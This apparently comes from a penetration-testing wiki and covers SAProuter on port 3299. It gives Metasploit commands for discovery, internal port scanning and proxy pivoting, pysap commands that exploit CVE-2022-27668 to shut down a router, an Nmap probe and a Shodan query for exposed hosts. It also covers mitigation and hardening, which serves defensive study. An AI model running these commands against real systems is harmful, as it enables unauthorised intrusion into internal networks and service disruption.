 # # 3299/tcp - Pentesting SAProuter


```text
PORT     STATE SERVICE    VERSION
3299/tcp open  saprouter?
```
```
This is a summary of the post from [[https://blog.rapid7.com/2014/01/09/piercing-saprouter-with-metasploit/|https://blog.rapid7.com/2014/01/09/piercing-saprouter-with-metasploit/]]

## Understanding SAProuter Penetration with Metasploit

SAProuter acts as a reverse proxy for SAP systems, primarily to control access between the internet and internal SAP networks. It's commonly exposed to the internet by allowing TCP port 3299 through organizational firewalls. This setup makes SAProuter an attractive target for penetration testing because it might serve as a gateway to high-value internal networks.

**Scanning and Information Gathering**

Initially, a scan is performed to identify if a SAP router is running on a given IP using the **sap_service_discovery** module. This step is crucial for establishing the presence of a SAP router and its open port.

```text
msf> use auxiliary/scanner/sap/sap_service_discovery
msf auxiliary(sap_service_discovery) > set RHOSTS 1.2.3.101
msf auxiliary(sap_service_discovery) > run
```
```
Following the discovery, further investigation into the SAP router's configuration is carried out with the **sap_router_info_request** module to potentially reveal internal network details.

```text
msf auxiliary(sap_router_info_request) > use auxiliary/scanner/sap/sap_router_info_request
msf auxiliary(sap_router_info_request) > set RHOSTS 1.2.3.101
msf auxiliary(sap_router_info_request) > run
```
```
**Enumerating Internal Services**

With obtained internal network insights, the **sap_router_portscanner** module is used to probe internal hosts and services through the SAProuter, allowing a deeper understanding of internal networks and service configurations.

```text
msf auxiliary(sap_router_portscanner) > set INSTANCES 00-50
msf auxiliary(sap_router_portscanner) > set PORTS 32NN
```
```
This module's flexibility in targeting specific SAP instances and ports makes it an effective tool for detailed internal network exploration.

**Advanced Enumeration and ACL Mapping**

Further scanning can reveal how Access Control Lists (ACLs) are configured on the SAProuter, detailing which connections are allowed or blocked. This information is pivotal in understanding security policies and potential vulnerabilities.

```text
msf auxiliary(sap_router_portscanner) > set MODE TCP
msf auxiliary(sap_router_portscanner) > set PORTS 80,32NN
```
```
**Blind Enumeration of Internal Hosts**

In scenarios where direct information from the SAProuter is limited, techniques like blind enumeration can be applied. This approach attempts to guess and verify the existence of internal hostnames, revealing potential targets without direct IP addresses.

**Leveraging Information for Penetration Testing**

Having mapped the network and identified accessible services, penetration testers can utilize Metasploit's proxy capabilities to pivot through the SAProuter for further exploration and exploitation of internal SAP services.

```text
msf auxiliary(sap_hostctrl_getcomputersystem) > set Proxies sapni:1.2.3.101:3299
msf auxiliary(sap_hostctrl_getcomputersystem) > set RHOSTS 192.168.1.18
msf auxiliary(sap_hostctrl_getcomputersystem) > run
```
```
**Conclusion**

This approach underscores the importance of secure SAProuter configurations and highlights the potential for accessing internal networks through targeted penetration testing. Properly securing SAP routers and understanding their role in network security architecture is crucial for protecting against unauthorized access.

For more detailed information on Metasploit modules and their usage, visit [[http://www.rapid7.com/db|Rapid7's database]].

---

## Recent Vulnerabilities (2022-2025)

### CVE-2022-27668 – Improper Access Control ➜ Remote Administrative Command Execution

In June 2022 SAP released Security Note **3158375** addressing a critical flaw (CVSS 9.8) in SAProuter (all kernels ≥ 7.22). An unauthenticated attacker can abuse permissive `saprouttab` entries to **send administration packets** (e.g. *shutdown*, *trace-level*, *connection-kill*) from a remote host, even when the router was started without the `-X` remote-admin option.

The issue results from the possibility to build a tunnel to the router’s own loopback interface by targeting the unspecified address **0.0.0.0**. Once the tunnel is established, the attacker gains local-host privileges and can run any admin command.

Practical exploitation can be reproduced with the **pysap** framework:

```bash
# 1. Build a loopback tunnel through the vulnerable SAProuter
python router_portfw.py -d <ROUTER_IP> -p 3299 \
                        -t 0.0.0.0    -r 3299 \
                        -a 127.0.0.1  -l 3299 -v

# 2. Send an admin packet (here: stop the remote router)
python router_admin.py -s -d 127.0.0.1 -p 3299
```
```
**Affected versions**

* Stand-alone SAProuter 7.22 / 7.53
* Kernel 7.49, 7.77, 7.81, 7.85–7.88 (incl. KRNL64NUC/UC)

**Fix / Mitigation**

1. Apply the patch delivered with SAP Note **3158375**.
2. Remove wildcard (`*`) targets from `P` and `S` lines in `saprouttab`.
3. Make sure the router is started **without** the `-X` option and is **not** directly exposed to the Internet.

---

## Updated Tooling & Tricks

* **pysap** – actively maintained and provides `router_portfw.py`, `router_admin.py` & `router_trace.py` for crafting custom NI/Router packets, fuzzing ACLs or automating the CVE-2022-27668 exploit.
* **Nmap** – extend service detection by adding the custom SAProuter probe:

  ```text
  Probe TCP SAProuter q|\x00\x00\x00\x00|
  ports 3299
  match saprouter m|SAProuter ([\d.]+)| p/SAProuter/ v/$1/
  ```

  Combine with NSE scripts or `--script=banner` to quickly fingerprint versions that leak the banner string (`SAProuter <ver> on '<host>'`).
* **Metasploit** – the auxiliary modules shown above still work through a SOCKS or NI proxy created with pysap, enabling full framework integration even when the router blocks direct access.

---

## Hardening & Detection Checklist

* Filter port **3299/TCP** on the perimeter firewall – allow traffic only from trusted SAP support networks.
* Keep SAProuter **fully patched**; verify with `saprouter -v` and compare against the latest kernel patch level.
* Use **strict, host-specific** entries in `saprouttab`; avoid `*` wildcards and deny `P`/`S` rules that target arbitrary hosts or ports.
* Start the service with **`-S <secudir>` + SNC** to enforce encryption and mutual authentication.
* Disable remote administration (`-X`) and, if possible, bind the listener to `127.0.0.1` while using an external reverse proxy for required traffic.
* Monitor the **dev_rout** log for suspicious `ROUTER_ADM` packets or unexpected `NI_ROUTE` requests to `0.0.0.0`.

---

## **References**

- [[https://www.rapid7.com/blog/post/2014/01/09/piercing-saprouter-with-metasploit/|https://www.rapid7.com/blog/post/2014/01/09/piercing-saprouter-with-metasploit/]]
- [[https://sec-consult.com/vulnerability-lab/advisory/improper-access-control-in-sap-saprouter/|https://sec-consult.com/vulnerability-lab/advisory/improper-access-control-in-sap-saprouter/]]

## Shodan

- `port:3299 !HTTP Network packet too big`

